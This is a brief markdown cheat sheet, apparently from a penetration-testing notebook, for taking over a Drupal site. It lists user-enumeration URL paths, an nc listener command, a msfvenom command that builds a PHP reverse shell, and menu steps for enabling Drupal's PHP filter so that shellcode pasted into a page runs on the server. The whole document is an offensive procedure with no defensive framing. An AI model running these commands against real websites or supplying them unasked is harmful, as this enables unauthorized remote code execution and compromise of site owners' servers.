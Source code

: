 ### user enum
```
<domain>/user/register
```

### get number of existing user
```
/users/<number>
```

### start listener
```
nc -lvp <lport>
```

### create php reverse shell
```
msfvenom -p php/reverse_php lhost=<lhost> lport=<lport> -f raw
```

### insert PHP code into Drupal
```
/modules/php
Modules > (Check) PHP Filter > Save configuration
Modules > PHP filter Permsissions > Check Use th PHP code text format for Administrator > Save permissions
Content > Add content > Basic Page > Write php shellcode on the body > Text format: PHP code > Preview
```

